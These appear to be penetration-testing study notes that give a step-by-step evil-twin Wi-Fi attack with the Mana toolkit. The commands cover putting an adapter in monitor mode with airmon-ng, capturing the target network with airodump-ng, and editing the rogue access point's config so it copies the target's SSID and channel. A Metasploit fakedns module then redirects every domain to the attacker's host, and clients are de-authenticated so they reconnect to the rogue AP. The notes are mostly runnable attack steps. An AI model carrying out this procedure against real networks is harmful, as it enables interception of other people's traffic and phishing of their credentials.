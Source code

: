 
- A tool we can use to conduct this type of attack is **Mana**
- [Mana Github](https://github.com/sensepost/mana)

- Mana allows us to quickly spin up a rogue access point, configure the necessary DHCP settings, and with some modifications to the default configuration, we can host our own web page to be served to a connected station.

> To the attack be successful, the attacker AP should be in close proximity to a station already connected to the legitimate AP.

- This way, upon de-authentication of the client, the client should auto-reconnect to the AP with the stronger signal (the attacker-controlled AP)

- We need 2 wireless adapters

Active monitor mode in the first one:
```
airmon-ng start wlan0
```


Monitor the new monitor interface:
```
airodump-ng wlan0mon --essid <target SSID> --manufacturer
```

Stop the mon interface and up the wlan0, so we can use later:
```
airmon-ng stop wlan0mon
ifconfig wlan0 up
```

Install mana toolkit:
```
apt install mana-toolkit
cd /usr/share/mana-toolkit/
cd /run-mana
analyse the start-noupstream.sh code
```

Go to /usr/share/mana-toolkit/hostapd-mana.conf:
```
 → change ssid = Free-Internet or whatever
 → change channel = to the same as the target
```

Go back to the start-noupstream.sh code:
```
 → change the line: dnsmasq -C ... -i $phy // must add the -i
 → comment the line below: # dnsspoof ...
 → comment the line 30: # msfconsole ...
```

- in another tab

Open metasploit:
```
msfconsole
use auxiliary/server/fakedns
options
set targetaction FAKE
set targetdomain *
set targethost 10.0.0.1
exploit -j
```
